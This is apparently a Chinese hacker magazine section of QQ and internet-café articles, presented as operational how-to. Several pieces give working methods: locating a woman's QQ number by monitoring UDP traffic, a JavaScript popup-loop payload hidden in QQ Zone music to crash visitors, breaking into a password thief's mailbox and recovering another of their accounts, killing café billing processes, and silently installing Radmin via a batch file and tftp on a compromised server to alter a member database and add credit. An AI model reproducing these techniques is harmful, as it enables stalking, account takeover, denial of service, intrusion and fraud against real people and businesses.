那我们如何防止这种攻击呢，其实方法非常简单，只要将QQ“系统设置”→“基本设置”中的“自动播放魔法表情”（图3）前面的勾去掉，停止魔法表情的自动播放（QQ默认是自动播放的，所以我们才有机可乘），就可以防范住这种“炸弹”了。

## QQ新功能 助我找出网吧中的MM

QQSniffer一直肩负着打探PLMM的QQ号任务，但在现今越来越严峻的网吧环境下已经渐渐力不从心了。因为QQSniffer是使用ARP欺骗截获同网段数据包进行分析的，可是现在比较正规的大型网吧不但每台电脑都有固定的外网IP，而且电脑数量非常多的话还有可能是好几个小局域网，使用好几个路由器或交换机，不在同一个网段的话这个工具就失效了。如果你的运气好，碰巧有PLMM和你在同一网段的话，还要小心网吧里有没有安装防止ARP攻击的工具。


“腾讯还是很理解我们的——QQ2006 Beta2有个新功能‘同吧好友’，在面板管理中可以找到。点击‘同吧好友’，这里显示的都是同一个网吧中登录的QQ，就算是隐身后也能正常显示出来（图1）……”

“不过我发现‘QQ网吧’的所有功能是通过一个叫‘QQ网关’的软件实现的，只要申请了QQ网关用户就成为‘QQ网吧’了……申请只需要网吧的名称、联系电话和IP地址，这些资料很好找……”

“……另外注意别用代理，因为申请成功了只能在申请的IP使用，否则申请下来只能给代理型IP用，不能看自己网吧的QQ。至于有朋友问关于审核的问题，就算是真的严格审核也没事，反正填的是真实资料。QQ公司看重IP也就是在网络运营商那儿，用纯真IP数据库显示出来的地址名称填写就行……”

## QQ宝典

有了“同吧好友”，接下来该说说怎么找到目标的QQ号了。首先根据机器号和自己的IP地址推断出MM的IP地址，再和同网吧好友聊天并监视UDP数据包确定目标。以常用的天网为例，打开天网，点击“安全规则设置”，在弹出的对话框中把“UDP数据包监视”前面的多选框打上“√”，选择拦截UDP数据包。在“同吧好友”中给对方发送一个消息，对方回复的话天网会拦截报警。然后点击天网中的“日志”按钮，就可以查到对方的IP了（图3）。

不过这样不很准确，容易受其它程序干扰，所以必须得注意IP地址是否在同一网吧。最好是自定义IP规则监视QQ号，就是在弹出的对话框中选择“增加规则”（图4）。


图2


图4

如果是公网IP而且只开了一个QQ的话，端口是4000；如果开了两个QQ的话，第二个QQ占用的就是4001端口，其他的QQ按登录的顺序前后依次向下排。有朋友可能会疑问关于QQ端口的问题，新版本的QQ比如2006版本的本地UDP端口有的可能不是4000，在QQ登录的时候确实占用4000，但正常连接后使用 A-PORT 之类的端口查看工具就会看到是6000。QQ占用的其它端口，比如3000-4000之间的端口是广告的，就是QQ内置网页用的。如果是局域网共享上网（内网），QQ服务器分配的端口是随机的，可以用珊瑚虫外挂自己查一下。


图3

其实QQ网吧不只是有同吧好友这个功能，还可以免费体验蓝钻、赠送礼物等（图5）。


图5

> （本文所涉及到的天网防火墙已收录到光盘）

## QQ空间 没有人气可不行

冰河洗剑

在第七期的黑客X档案上，曾经介绍了几种刷QQ空间人气的方法，不过，其中介绍的方法现在已经失效了，许多读者在论坛里纷纷询问目前有效的刷QQ空间人气的方法。今天我就为大家全面地介绍一下刷QQ空间人气的各种方法，包管大家一天就能刷上好几千的人气！

### 一、QQ在线刷人气系统

打开“www.wtto.net在线刷QQ空间人气系统”网页（http://www.wtto.net/qzone/），在中间输入你的QQ号码，在介绍人处填写的是“无介绍人”（图1）。点击下一步按钮，显示在线刷人气系统的各种信息。点击“点击这里启动系统”按钮，即可打开QQ在线刷人气系统（图2）。


图1

每10秒自动刷一次，模拟多个QQ用户来登录你的QQ空间，因此理论上每10秒钟就可以增加1点的人气。当然，由于网络问题，有可能会刷新失败，但是成功率一般都在70%左右，也就是每小时可刷人气220点左右。

#### 二、人气刷不停

由于网络不是太稳定，因此在刷人气时有可能会断线，其实断线的时候，只要重新按下F5键，刷新一下页面就可以了。不过此时如果我们不在电脑旁，那么刷人气的时间就白白浪费了，可以开启防掉线功能。在刷新系统页面下方的“每次检测时间”中设置自动刷新时间，可设置为3分钟，然后点击下一步按钮，在新页面中点击“启用防掉线功能”按钮，即可开启系统保护功能：在线刷人气系统会自动每隔3分钟检测一下页面，看看是否掉线，掉线的话又自动连接系统。

**小提示：** 在线刷人气系统默认是每隔10秒刷新一次页面，会提高刷新速度，但普通用户资源并不是很多，因为这根本就是一个流量平台（参考Alexa）。

#### 三、在线刷人气也来玩多开

如果能够同时打开多个刷人气页面，那么我们刷人气的速度不就倍增了吗？不过“www.wtto.net在线刷QQ空间人气系统”运行时，会自动检测系统，看看是否已经打开了一个页面，如何绕过检测，同时多开刷人气页面呢？

首先我们可以通过 `net user xiaoyao 111 /add` 命令给自己的系统新建一个用户名为“xiaoyao”、密码为“111”的账号。然后使用右键点击桌面上的IE图标，在弹出窗口中选择命令“运行方式”，打开运行身份对话框（图3），勾选“下列用户”，输入刚才新建的用户名和密码，点击确定，就可以使用其他用户身份打开一个新的IE窗口了。然后打开在线刷人气系统，就可以绕过检测同时刷人气了（图4）。

使用同样的方法，我们可以同时打开十来个刷人气系统，只要你的系统和网速够快，一个小时刷2000多点的人气不成问题！

另外，我还发现了一个有趣的技巧，可以在一个用户下多开几个刷人气页面，只不过是连接不同的服务器：首先查看当前打开的在线刷人气页面的链接地址，一般为“http://7.tt86.com/qq_zone.asp?QQ=41346583&js=41346583&web=www.wtto.net/qzone&bbs=www.wtto.net&g=2”，可以将前面的“7”改为其他服务器数，如4、3、1等，然后直接在浏览器中访问这个地址，当然是会提示出错的了，警告同一时间只能打开一个页面。确定后自动返回首页，重新输入自己的QQ号，再次登录系统，就可以多开了。

## 四、关机也来刷QQ空间人气

“在线刷QQ空间人气系统”提供了介绍人的项目，也就是说，如果介绍一个人来刷人气，每刷10点人气，介绍人就可以获得5点的人气。只要将类似“http://www.wtto.net/qzone/qq.asp?js=41346583”的链接提交给别人，“41346583”是我的QQ号，将它替换成为你的QQ号码，让别人通过这个链接来访问在线刷人气系统，在介绍人处显示的就是我们的QQ号。别人每刷10点人气，我们就又增加，关机也能增加人气！

**小提示：** 提交给他人刷人气时，也可以直接访问“http://www.wtto.net/qzone/qq.asp?js=自己的QQ号”的链接；当它刷满10点人气，还会再送你5点人气奖呢！

#### 五、所有系统为我刷

网上有很多在线刷QQ空间人气系统，比如“TT86在线刷QQ空间人气系统V3.5”（http://www.tt86.com/）、“FDQQ在线刷QQ空间人气系统”（http://qqzones.com/qzone/qq.asp?js=176496708）、“sswll在线刷QQ空间人气系统”（http://www.sswll.com/qzone.asp）、“娱乐帝国”（http://shu.2v3.cn/）、“ZhuWo在线刷QQ空间人气系统”（http://zone.94q.net/qzone/index.asp）等，可以同时登录多个QQ刷人气系统，快速提升自己的QQ空间人气。

#### 六、打造自己的在线刷人气系统

可以看出这些在线刷QQ空间人气系统都是大同小异的，那么我们是否也能建一个自己的在线刷人气系统呢？首先下载一个在线刷QQ空间人气系统源代码“http://ta5.downcodes.com/download/20060506/qzone.rar”，假设自己的网站域名为“http://www.binghexijian.com/”，要将刷人气系统放在“QZONE”目录下，解压源代码压缩包，打开其中的“config.asp”文件，将其中参数改为自己的在线刷人气系统地址与论坛链接地址，并保存上传。之后即可通过对应网址在线刷QQ空间人气。

解压后运行相关组件注册脚本，复制若干OCX文件并运行“QQ空间人气精灵.exe”，输入QQ号码后点击“开始”即可。文中说明该工具刷人气速度更快且更稳定，但需要注意控制频率。

**小提示：** 由于腾讯封锁很快，刷空间人气工具更新也快，旧版本失效后可关注新版本。

#### 七、工具刷人气，多快好省

“TT86”发布的刷QQ空间人气软件可不开网页直接刷人气，每次耗时较短，并可查看当前人气点数和排名。文中还提到解压后若运行报错可按说明处理。

刷QQ空间人气需要控制节奏，短时间内可提升较多，但频率过高可能导致空间被封，恢复访问通常需要等待一段时间。

## 把QQ反骚扰进行到底

侯金星

文章讲述作者在QQ中遭遇陌生人骚扰后的处理思路，并提出一种“反骚扰”方法：利用群讨论组与聊天窗口机制，在对方位于黑名单时仍可进行某些交互。文中按步骤说明：在群中创建讨论组、勾选对方QQ号、打开讨论窗口并选择相应会话方式，随后测试消息与文件/视频发送效果。最后提醒读者理性使用相关技巧。

## 菜鸟的QQ反击

黑X人的怒吼

都说“树大招风”，我的QQ等级只不过是高了一点点（也就才40来级）就引来了不少人的嫉妒，甚至有一些人想把它占为己有。前几天刚打开QQ就有一个MM加我，对于MM我向来都是来者不拒的，就通过了对方的请求。刚聊了没几句MM就问我要不要看她的照片，这个当然要看了……把传过来的“照片.jpg.exe”文件保存下来后，先别忙着双击打开，我虽然只不过是菜鸟，可也知道这个“照片.jpg.exe”肯定有问题。第二天，可能是发现我没有中招，上线就直接问我可不可以把我的QQ给她，我晕，这也太直接了吧……为了维护我们黑X人的伟大形象，为了打击那些专门盗QQ给我们菜鸟抹黑的垃圾，也为了救广大菜鸟于水深火热之中，我决心好好地惩治一下对方。

### 一、QQ安全中心的疑惑

QQ安全中心默认情况下是不允许传输exe文件的，我这才想起来，上次确实是对方传给我的“照片.jpg.exe”，居然没有被QQ的安全中心阻止传输。我奇怪了好长时间，后来一QQ上的好友告诉我可能跟QQ安装目录下的cute.1文件有关。

我在QQ的安装目录里找到cute.1文件，然后使用记事本打开，果然看到了bat、chm、com、reg等好多文件扩展名（图1），这些都是我们不可以传输的，但唯独却没有exe。我重新安装了QQ，将cute.1文件中的exe去掉后，果然可以正常传输exe文件了（图2），看来问题真的出在这里。

### 二、WinHex破解盗号者的邮箱

我们使用PEiD对“照片.jpg.exe”进行查壳，发现加的是FSG的壳，这个壳好脱，直接使用PEiD自带的插件就可以轻松地脱掉壳了（图3）。脱壳后，我双击打开，可结果却是什么反应都没有，打开任务管理器发现程序根本没有脱壳而是被运行了，这下可中招了（图4）。没关系，既来之则安之，正好可以直接去内存找找有用的信息。

运行WinHex，编辑内存，在对话框里选择“照片.exe”进程、“整个内存”（图5），来到对应的内存空间，利用WinHex的搜索功能，搜索“.com”；因为一般的盗号程序都要发邮件，邮件的地址中一般都会包含“.com”之类的东西。经过一番搜索，来到了如图6所示的地方，我发现了盗号者的一些信息。

ajiu5024668@163.com、ajiu5022799@163.com应该是收信或者发信的信箱；2879887可能就是信箱密码。因为我们并不知道哪一个是收信的信箱，所以只好全部登录试试。运气真好，一下子就进去了！里边有好多的QQ号码。为了避免继续有人成为受害者，我把信箱密码改掉了，把资料也全部删除后闪人。

## QQ宝典

#### 三、利用社会工程学报复盗号者

仅仅是改了对方的邮箱还是感觉不是很爽，我发现她的邮箱是ajiu5022799，里面的数字5022799会不会是她的另外某个QQ呢？我直接来到QQ的取回密码网页，填上QQ号，发现她的“提示问题”是1，现在只有靠运气了，答案填1，返回错误（图8）；当我把答案填2时，这次成功了（图9）！……

或许正是应了那句话“在你入侵时，你不知道管理员真的是白痴，还是伪装成白痴的天才”，虽然我们“黑X人”不敢自诩为天才，但是我们“黑X人”绝对不是白痴，惹火我们你们可是会后悔的哟！（本文所涉及到的PEID和WinHex已收录到光盘中）

## 利用QQ空间玩“拒绝服务攻击”

前几天上网的时候，乱点进入了一个网站。说时迟那时快，立刻有4个网页不客气地弹了出来……经过我的测试，平均每打开一个网页要占用内存约1M……如果同时弹出10个呢？1000个呢？可想而知，若不是相当大的CPU运作，将令你的资源消耗殆尽而崩溃，达到本地DOS攻击的效果。

- 1. 通过查看某网站主页源代码，发现弹出网页代码（含 `for(i=0;i<4;i++)` 与 `action=http://www.shangyenet.com`）。
- 2. 把代码复制到文本文件中，修改弹出次数（如10000次）与目标网址（如 `http://www.baidu.com`），保存为 `test.htm`。
- 3. 把 `test.htm` 上传到空间，得到网址。
- 4. 用 RealMedia Editor 把该网址插入预先准备好的歌曲文件中，再上传并挂到QQ空间。

```html
<script>
for(i=0;i<4;i++){
  document.write('<form name=form'+i+' action=http://www.shangyenet.com target=_blank></form>');
  eval('document.form'+i+'.submit()');
}
</script>
```

其中的 `i<4` 的意思就是打开网页弹出的次数为4次，`action=http://www.shangyenet.com` 就是所弹出的网址。点击右键新建文本文件，把代码复制进去并修改参数即可。

### 四、QQ空间有两个地方可以利用

第一个是利用新建模块功能来挂我们的网址。具体方法是选择“自定义”→“新建模块”（图2）……在“视频连接地址”中输入“歌曲”的网址，选项里勾上自动循环和自动播放，再输入特征码点“保存”即可。

只要别人一进入我们的QQ空间，就会自动播放编辑过的歌曲，弹出“死循环”的网页。对方窗口会一直不停地弹出网页，直到死机为止（图4）。

第二种方法是在日志中添加。新写一个日志，最后点击“插入音频”，把刚刚编辑过的歌曲完整网络路径输入进去，并勾选“自动循环”和“自动播放”（图5）。

呵呵！是不是很好玩呀，其实在我们身边有很多有趣的事情，只要我们睁大眼睛，多发现、多思考，就一定会发现的。（本文涉及到的RealMedia Editor和代码已收录）

## 抛弃客户端，WEB网页来聊天

QQ、MSN、POPO之类的即时通讯工具早已经占领网络生活。不过都需要安装软件，并且由于网络限制，很多地方无法使用IM软件通讯。在这种情况下，各种WEB版聊天程序出现，不仅可以让我们抛弃客户端程序，还可以突破网络限制，自由聊天无阻碍。

### 一、QQ也来玩网页聊天

QQ的WEB网页聊天功能是近年推出的，以后再也不用受网管和网络限制，可以随时随地都与QQ好友交流。Web QQ可以实现即时消息收发、处理添加好友请求、好友分组显示、在线状态切换、群等基本功能。

登录WEB QQ网页“http://webqq.qq.com”，先点击“报名试用”链接，按提示完成申请。成功后在登录框输入QQ账号、密码及验证码，点击“登录”即可成功登录QQ（图1）。

**小提示：** 目前WEB QQ仅支持IE6.0；另外，Web QQ登录时密码采用了SSL加密传输，可以防止密码失窃，但仍需小心键盘记录类木马程序。

## QQ宝典

Web QQ登录后的外观与QQ客户端差不多，只不过是显示在网页中的。双击某个好友的头像，可打开聊天窗口，在输入框内输入消息后发送即可；可发送表情、使用快捷键“Ctrl+Alt+Z”，或双击该好友头像即可接收消息。Web QQ保留了用户的个性签名，但不能接收好友所发的自定义图片，只能接收WEBQQ最基本的表情。双击某个QQ群名字，可以打开群界面并发送群消息，还可以访问群空间、群信息、更新群。

**小提示：** 使用WebQQ聊天的话，可以起到隐藏IP地址的作用。

### 二、MSN Web在线聊天

微软很早就开通了基于Web界面的MSN Messenger。打开在线MSN地址“http://webmessenger.msn.com/”，点击“启动MSN Messenger”按钮，即可打开MSN Web登录页面（图3）。输入MSN号码及密码，就可以登录WEB版MSN Messenger了（图4）。

**小提示：** 要使用MSN Web，首先需要关闭IE对浏览器的弹出窗口阻止功能，否则将无法弹出登录页面。

WEB版的MSN Messenger界面与普通MSN Messenger差别不大；可以设置登录状态和添加好友，也可以向好友发送消息和邮件。双击某个联系人名字，即可打开消息发送页面，可发送文字消息和默认表情，不能发送图片（图5）。在WEB版MSN Messenger中，用户还可以更改自己的签名。

### 三、随时随地玩Gtalk

除了MSN与QQ外，Google Talk（简称Gtalk）也是一个很有分量的聊天软件。不过Gtalk不像那些软件这么普及，因此安装Gtalk的电脑不多，我们倒是可以使用Web版的Gtalk来尝尝鲜。

Gtalk的在线即时聊天功能其实是捆绑在其Mail服务中的，只要拥有Gmail账户就会自动启用聊天功能。打开Gmail网站（http://www.gmail.com/）；使用Gmail账号登录系统。进入Gmail系统后，点击页面下方的“Gmail视图：带有聊天功能的标准视图”，显示聊天功能（图6）。

Gtalk提供了两种添加联系人的方式，可以在上方好友列表栏处输入联系人邮件地址，点击“添加”按钮即可添加好友（图7）。

后，即可向要聊天的人发送邀请，对方接收后即可自由聊天了。另外，在使用Gmail发送和接收电子邮件时，经常联系的邮件地址会自动添加到好友列表中。

在左侧的好友列表栏中可设置个人的在线状态，点击“设置个人在线状态”下拉列表，可选择隐身或离开、忙碌状态等。此外，还可实现对好友的分组功能。好友的在线状态通过不同颜色显示，绿色表示在线，黄色表示闲置，红色表示正忙。单击在线好友，在弹出菜单中选择“聊天”按钮，即可在右下角处弹出聊天窗口（图8）。

Gtalk提供在线保存聊天记录功能，默认情况下将聊天记录保存在Gmail账户中，也可以随时从Gmail的“设置”页面中更改聊天记录设置，保存的聊天记录位于“Chats”文件夹中，并用聊天人姓名及日期和时间来标识，可以方便地对聊天记录进行恢复与搜索。

### 四、网易POPO网页版

网易泡泡也是一个极为常见的聊天工具，同样也提供了网页版POPO，无须下载安装，只要能访问Internet，就能登录网页版POPO。

打开网易POPO网页版登录站点（http://popo.163.com/），在左侧输入账号与密码，即可登录网页版泡泡（图9）。点击界面上方的“在线”下拉菜单，可设置在线状态；点击界面底部的“显示”按钮，可分组显示好友或选择是否显示不在线的好友，点击“添加好友”按钮，能够像客户端版一样轻松添加任意好友。

单击好友列表中的某个好友昵称，自动弹出聊天窗口网页，在其中可以发送文件消息，并可发送普通的表情，但是不可以发送图片之类的。另外，在网页聊天窗口中还提供了好友权限设置功能，点击工具栏中的“权限”按钮，可在下拉菜单中选择是否让该好友看到自己，禁止对方向自己发送消息等（图10）。

#### 五、网页版淘宝旺旺

淘宝旺旺是淘友们必不可少的联系工具，淘宝旺旺早就推出了网页版，方便用户购买或卖出商品。打开淘宝旺旺的WEB网页（http://webww.taobao.com/wangwang/webww1.htm），输入用户名和密码，确定后即可进入WEB版旺旺。

WEB版旺旺的界面很简洁，在下方输入框中输入淘宝账号，点击开始聊天就可以像使用客户端一样地进行聊天了（图11）。WEB版淘宝旺旺不能保存聊天记录，而且也没有显示好友的昵称，因此聊天时感觉非常不方便。

### 六、Yahoo Messenger网页版

各种各样的聊天工具都提供了WEB版，Yahoo Messenger当然也不例外，不过似乎一些第三方网站提供的WEB版Yahoo Messenger速度更为快捷些。

Meebo（http://www1.meebo.com/index_zh-CN.html）就是一个集合了包括Yahoo Messenger在内多数WEB版聊天软件。

## QQ宝典

的 Web 聊天工具，打开网页 http://messenger.yahoo.com/#webmessenger 后，输入 Yahoo ID 和密码，点击“登录”按钮即可登录 Web 版 Yahoo Messenger（图12）。

雅虎通 Web 版可供设置的选项比较少，可设置在线状态，并添加、删除好友，也可加入某个群。比较有意思的是群聊功能，用户可自建一个聊天室，并选择将某些好友添加到此聊天室中来（图13）。

此外，还有许多集成了多个聊天软件的 Web 聊天网页，一个网页就可以完成多种聊天联系。使用 Web 版网页聊天，虽然很方便，可是却不得不小心隐私被偷窥，因为 Web 版网页聊天记录很容易被恶意者盗取！不过 Web 版网页聊天也有自己的好处，那便是可以有效地隐藏自己的 IP 地址，防范来自网络上的攻击。

## 我的特权——申请QQ也有后门

班上的好几位 MM 天天缠着我要 QQ 号，后来才知道原来她们去网吧上网 QQ 被盗了，而她们又没有设置密码保护。我是求术团来着。上 QQ 网站申请新号又申请不上，总是提示申请人数太多，要求稍后再试。于是我便成了 QQ 号的“供应商”，全部让我帮她们申请 QQ 号，实在没办法。看在是 MM 的份上，我就将独家的“偏门”地址拿了出来与大家共享。

其实腾讯为某些特定地区的用户特意留了一个专门申请 QQ 号码入口，并且申请步骤要比平时简单许多，当然申请成功的概率也是百分百了。我们现在要做的就是走这个后门。

第一步是运行 IE 浏览器，进入 http://freeqq2.qq.com:8080/... 页面，单击“我同意”按钮进入下一步（图1）。

第二步是填写相关资料后，连续单击两次“下一步”按钮，便会出现 QQ 申请成功的提示了（图2）。


#### 小提示

- 腾讯为了防止恶意申请，同一 IP 地址一天只能申请一个 QQ 号码；如果经常断线上网，可通过断线重连的方法重新获得一个不同的 IP 地址。
- 申请到 QQ 号码后立即申请密码保护才是上策，这样即便被盗也能轻松找回来。

### 黑客大揭秘补习

- **什么是弱口令**  
  强度不够的、容易被猜解的、类似 123、abc 这种口令，或口令为空，以及口令和用户名相同，这样的口令也非常容易被破解。

- **网关**  
  网关（Gateway）的主要作用是翻译，不同网络格式之间通过网关进行通信。常见场景是局域网通过网关与外界通信。

- **什么是代理服务器**  
  代理服务器就是“代理”访问目标网站，先替用户访问并取回信息，再返回给使用者。

- **什么叫做跳板**  
  跳板与代理服务器类似。入侵者常将已攻陷主机作为代理服务器，再继续攻击其他主机，这个中间节点就叫“跳板”。

### 快乐网吧行

悠游是我们这里比较牛的一个网吧，不过因为学习比较紧张，好久没去上网了。周末同学说悠游改革了，让我去看一下，所谓的改革其实就是网管把系统设置得更 BT 了。

到吧台交费后正常上机，系统还是 pubwin + 小哨兵还原卡。打开“我的电脑”，没有 C 盘（这里的 C 盘不是系统盘），看起来网管把 C 盘给隐藏了。随后在 IE 浏览器里输入 `c:\`，如图1。


想到以前《黑客X档案》中介绍过通过 IE“文件→打开”来找系统目录的方法，但打开 IE 后却没有“文件”菜单。按 `Ctrl+O` 也不行，只能尝试从开始菜单进入（图3、图4）。


这下不就“百事可乐，万事 OK”了嘛，兴奋 ing。谁知当我输入 cmd 后，熟悉的黑色界面瞬间消失。记得 X 档案上也曾经讲过利用组策略突破限制的方法，于是在“运行”里输入 `gpedit.msc` 打开组策略，进入到如图5所示目录。


把右侧“隐藏‘我的电脑’中的这些指定的驱动器”改为“已停用”，成功打开了 C 盘（图6）。这时才发现原来 C 盘不是系统目录，真正的系统目录是 F 盘。


对于 pubwin，首先想到的是找管理员密码，或使用经典古老替换法。尝试下载 `winhex` 时，IE 会自动关闭；连“小哨兵还原卡破解器”也同样失败。分析后怀疑系统中有拦截下载的辅助软件，可能藏在 C 盘中。


果然，在 C 盘中发现一个文件夹（图7），其中有一个 Explorer 程序，图标都被隐藏（图8），还有 `readme` 文件。大意是说会在 `netbar.dll` 中添加禁止网民下载的程序。用 notepad 打开 `netbar.dll`（图9）后可见大量关键词（图10）。


删除或改名部分拦截规则后，下载恢复正常。最后就是继续破解 pubwin 密码、免费上网并处理还原卡等操作。以上是一次网吧环境下的实战折腾记录。

### 一键搞定所有的网吧管理系统


- 首先，我对上次写的“解除计费...”作补充，批处理代码建议在 IE 中“查看→源文件→新建→粘贴→另存为（记得 *.bat）”。
- 如果打不开硬盘，可先右击快捷方式（如 QQ）查看目标路径。
- `netbardown` 有两种用法：一般下载与下载并执行（含本地保存名）。

好了，开始我们今天的话题。文章先介绍作者对网吧管理系统的观察与测试结论：这类系统通常依赖联网启动，断网或关键进程异常会导致机器被锁定；不同版本在进程守护方式上有差异，因此可从进程层面进行分析。

#### 一、生成篇

首先双击 killmaker，界面如图1。作者说明工具界面较简洁，需先确认用途，再依次输入 QQ 号、大名/网名以及网吧管理软件名等信息进行生成。


我不会使用 MFC 来写可视化的东西，因此工具界面比较简陋，大家将就着用吧。先同意不能将本程序用于非法用途，再按提示继续输入参数。

右栏继续说明输入流程：确认“y”后输入 QQ 号（最长9位）、输入大名或网名，再输入对应网吧管理软件名称（示例含 pubwin、美萍、万象、同联等），并强调输入的是“网联”而非“进程名”。


接下来需要收集该管理软件的所有进程名（含守护进程）。作者给出示例并建议到官网或搜索引擎核对版本差异，避免因版本不同导致进程名不一致。

- 金盘：`client.exe` 等
- 同联：`clientp.exe`、`clientbk.exe`
- 将网络统：`mainpro.exe`
- 万象（老版本）：`clsmn.exe`、`client.exe`
- pubwin4：`pubwin.exe`、`reclock.exe`、`rundll.exe` 等
- 美萍：`smeur.exe`
- pubwin 旧版：`pubwinclient.exe`

作者示例填写 `clientp.exe`，若有多个进程则按提示继续输入（同联示例含 `clientbk.exe`）。完成后工具会生成文件并加壳，最终得到 `kill.exe`。


#### 二、使用篇

我们刚才生成了 kill.exe，那么还犹豫什么，直接双击啊。看看，是不是你的名字和 QQ 全在上面挂着呢（图7）？


朋友们用着你做的“清除器”，是不是很有面子。只是别让网管发现了，不然按下“Y”，管理软件的进程就会被结束，且可执行文件也会同时被删除。我们这里的同班好像还绑定安装“冰点”，可按 Shift+Ctrl+Alt+F6 验证是否存在。

#### 三、小结

其实我们的 killmaker.exe 不光可以生成网吧管理软件的清除器，更可以用来生成网虫的专杀工具。本文中涉及到的 killmaker 和 netbardown 源代码已收录。


### 一切为了带宽

战神 MARS

网吧最重要的是什么？很多人看法不同，但普遍关心的是网速。尤其网络游戏环境下，带宽与体验直接相关。当前 P2P 软件占用带宽严重，企业或网吧网络常变慢，因此需要限制 P2P 流量，保障网络可用性。

今天推荐一款针对网络 P2P 滥用问题开发的系统软件——P2P 终结者。该软件可在局域网中控制 P2P 下载流量，提升网络管理透明性，实现较低成本的全网控制。


- 支持主流 P2P 协议控制（如 BitTorrent、eMule、Thunder 等）
- 支持 P2P 下载带宽控制与限制
- 支持按主机/IP/MAC 进行流量控制
- 网络主机通讯详细信息实时查看（含包内容分析）
- HTTP/FTP/WWW 等常见应用控制
- 聊天工具（QQ/MSN/POPO/UC）控制
- 邮件监控与 Sniffer 主机探测
- 兼容多种网络环境（含 ADSL、路由、交换机）


## 网吧黑客

P2P 终结者根据网络环境的不同主要有以下两种安装模式：

- 安装于代理服务器上，这种安装方式适用于本地网络采用代理服务器方式接入公网（图1）。
- 安装于本地网络任意一台主机，这种安装方式适用于任何公网接入方式，当然最佳环境是 ADSL 路由器共享上网环境；如果你有代理服务器，那么建议采用第一种方式（图2）。

#### 一、软件配置

- **物理网卡选择**：该选项用来设定 P2P 终结者软件进行 P2P 流量控制时使用的网卡。如果安装主机上只有一块网卡，那么直接选择就可以了（图3）；如果有多块网卡，就要选择你要限制目标的网络。
- **系统配置**：在网吧使用最好选上“隐藏软件主窗口”，以免被人发现（图4）。
- **运行环境配置**：一定要根据网吧的环境如实选择（图5）。


#### 二、网络控制台

进行完软件的各项设置，就要进入“网络控制台”启动网络控制服务，这样就可以应用我们的设置进行控制网络了。

如果您只是想监视网络主机的 P2P 流量，您可以选中页面下方的“运行监视模式”选项。这样，软件只是会监视对应的网络数据，但是不会进行真正的拦截。

点击“启动网络控制服务”按钮，看软件开始应用我们的设置控制网络了（图6）。


#### 三、网络主机扫描

我们在这里设置我们要限制的主机，看看哪台机子的流量大，我们就可以对它进行限制了（图7）。


#### 四、网络带宽管理

网络带宽管理用来设置网络主机所允许的最大占用带宽，可以为每个主机指定所占用带宽。通过本项设置，就可以避免某台主机占用过大网络带宽，而造成其他主机无法使用网络的问题（图8）。

#### 五、网络应用管理

- **控制下载**：可以限制各种下载方式，主要包括对 P2P 的控制、对 HTTP 下载的控制、对多点 HTTP 的控制，以及对 FTP 下载的控制（图9）。
- **控制 WWW**：控制 WWW 设置用来控制网络主机的 WWW 访问。您可以设定为禁止访问 WWW，也可以使用限制规则来访问（图10）。
- **控制聊天**：可以禁止 QQ、MSN、网易泡泡、新浪 UC 聊天（图11）。


#### 六、网络安全管理：IP-MAC 绑定控制选项

IP-MAC 绑定控制选项是用来控制局域网内主机不能私自更改 IP 地址或者 MAC 地址的。可以在已经启动了网络控制服务状态下，点“获取 IP-MAC 关系”按钮，这样就会把当前所有 IP-MAC 对应关系自动加入绑定列表；也可以通过“手工添加绑定”按钮来添加绑定关系。通过最下面的两个复选框，可以设定在发现非法 IP-MAC 对应关系的主机时软件采取的措施（图12）。


#### 七、局域网 Sniffer 检测工具

Sniffer 是一项用来捕获网络报文的网络技术，但是也被很多恶意攻击程序或者病毒使用，如网吧传奇杀手病毒，以及一些恶意制造 IP 冲突的攻击软件等。局域网 Sniffer 检测工具可以帮助你检测局域网中哪台主机处于 Sniffer 状态，以帮助你采取相关措施，做到防患于未然。点击“运行局域网 Sniffer 检测工具”按钮，就可以检测局域网中处于 Sniffer 状态的主机了（图13）。


哈哈，P2P 终结者的功能够强大吧。好了，只要我们好好利用，那么管理网吧或者企业的局域网还是会比较轻松的。今天的内容就到这里吧。有什么疑问 X 论坛找我哦！（本文所涉及到的 P2P 终结者已收录到光盘中）

**冷却网 7.lsp1 帖子加密的一代码**

首先注册一个 ID，点开一个已存在的帖子，然后回复内容，在框中写：`[html]加密代码[/html]`。帖内文字将不能正常显示。

**通杀网页源代码加密**

在地址栏或按 Ctrl+O 输入：`javascript:s=document.documentElement.outerHTML;document.write('<body></body>');document.body.innerText=s;`

源代码最终都可被浏览器解析，`documentElement.outerHTML` 是最终结果。

### 网吧加钱篇

#### 看菜菜如何网吧加钱


##### 一、重返肉鸡受阻

星期天实在闲得没事，来到了久未光顾的网吧，心里有一番亲切的感觉。可是在地址栏中输入 `\\192.168.1.252\c$` 后，却弹出了不允许访问的提示窗口（如图1）。


晕了，几天没来，网管把默认共享给删除了，估计 administrator 密码也可能改过。先把自己的 IP 和主机名改掉，再开一个肉鸡来使用。尝试连接后发现以前留的黑客之门也连不上。扫描发现主机只开了有限端口，暂时无法利用漏洞入侵。

#### 二、再次杀鸡

看着邮箱里的黑客工具，想到以前用 hideadmin 建立过超级管理员。于是尝试命令行与 telnet 登录，检查共享与服务状态，发现 `server` 服务似乎异常；`net start server` 提示服务已启动但共享仍不可访问。


我尝试了很多方法，如关闭 IPSEC、搜索资料等，最后还是决定先“加钱”。准备利用 radmin 与工具组合方式执行后续操作，并注意规避共享访问限制。


因为不能访问共享，所以只能在命令行上传。先把 radmin 弄成自解压文件，建立自动运行批处理 `winrad.bat`，再配合免杀工具处理 `r_server.exe`。

```bat
@echo off
regedit /s radmin.reg
r_server /install /silence
net start r_server
root.exe /
del dd.exe
del winrad.bat
```

将 `winrad.bat`、`root` 和 radmin 配置做成自解压文件，并设置高级选项（如覆盖所有文件等）。本地测试成功后，通过 `tftp` 在对方 shell 下下载执行（如图4）。


#### 三、Radmin 加钱大法

现在就可以使用客户端连接上对方了。在进行文件管理时，我突然发现可以通过 Radmin 进行加钱，但是必须注意一个问题，那就是在加钱时不能有人进行刷卡，否则会被清掉或造成数据库再次调用出错。

首先在本机 C 盘建立一个临时目录，然后使用 Radmin 的文件管理功能把数据文件 member.mdb 复制过来，快速用数据库工具打开 member.mdb，然后保存，再复制过去覆盖原来文件。这样，我们就加钱成功了，如图8。

至此本文就结束了，如果读者能在本文中学到实用的技术，那我就幸甚至哉了。毕竟，我们追求的是技术。

下载后，直接运行木马，种马成功！

### 老师你能奈我何？

罗秉琨

